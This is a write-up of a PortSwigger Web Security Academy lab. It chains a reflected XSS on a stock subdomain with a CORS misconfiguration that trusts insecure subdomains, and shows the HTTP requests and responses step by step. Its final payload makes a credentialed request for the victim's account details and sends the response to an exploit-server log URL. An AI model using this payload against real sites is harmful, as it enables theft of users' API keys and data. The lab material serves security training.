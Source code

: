 This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

Request
```http
GET /accountDetails HTTP/2
Host: 0abe00bd04e8827b8009a38f001b0089.web-security-academy.net
Origin: http://a.0abe00bd04e8827b8009a38f001b0089.web-security-academy.net
```

Response
```http
HTTP/2 200 OK
Access-Control-Allow-Origin: http://a.0abe00bd04e8827b8009a38f001b0089.web-security-academy.net
Access-Control-Allow-Credentials: true
```

Lab accepts CORS request from subdomain of lab url using the following protocols:
- http, https


## XSS

View a product page
```http
GET /product?productId=1 HTTP/2
Host: 0abe00bd04e8827b8009a38f001b0089.web-security-academy.net
Cookie: session=cVAm1E3q2WXdnRS8y7jL00zi6nvZfKLt
```

Response
```html
...
<script>
    const stockCheckForm = document.getElementById("stockCheckForm");
    stockCheckForm.addEventListener("submit", function(e) {
        const data = new FormData(stockCheckForm);
        window.open('http://stock.0abe00bd04e8827b8009a38f001b0089.web-security-academy.net/?productId=1&storeId=' + data.get('storeId'), 'stock', 'height=10,width=10,left=10,top=10,menubar=no,toolbar=no,location=no,status=no');
        e.preventDefault();
    });
</script>
...
```
- stockCheckForm sends a CORS request to http://stock.lab-url


Request to check stock:
```http
GET /?productId=1&storeId=1 HTTP/1.1
Host: stock.0abe00bd04e8827b8009a38f001b0089.web-security-academy.net
```

Response:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=6BqsYZi6wdhPJovhZ1FD1Bo20ZPxveHG; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 15

Stock level: 43
```
- tested storeId=invalid, no errors in response

Request to check stock again but this time with invalid productId:
```http
GET /?productId=invalid&storeId=1 HTTP/1.1
Host: stock.0abe00bd04e8827b8009a38f001b0089.web-security-academy.net
```

response
```http
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=utf-8
Set-Cookie: session=ce8Avoy9nYnEzYb4Al3uHobiSB22SZZ9; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 41

<h4>ERROR</h4>Invalid product ID: invalid
```
- productId is reflected when invalid product ID is processed


Test same request with productId=`<script>alert(1)</script>` and the response is as follow:
```http
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=utf-8
Set-Cookie: session=UO32sULJ9Aa7uCYrml154dKdlMQMSXH7; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 59

<h4>ERROR</h4>Invalid product ID: <script>alert(1)</script>
```
- productId query param is vulnerable to XSS


## XSS chain with CORS bypass

http://stock.lab-url/?productId=XSS&storeId=1 is vulnerable to XSS

Target server: lab-url which allows CORS from http://stock.lab-url

```html
<script>
    document.location="http://stock.0abe00bd04e8827b8009a38f001b0089.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0abe00bd04e8827b8009a38f001b0089.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a860011049c828a8001a24101cb004a.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
- payload sent to victim to redirect victim to `stock` subdomain and trigger XSS
- XSS payload will run the typical CORS payload

View access log to get API key
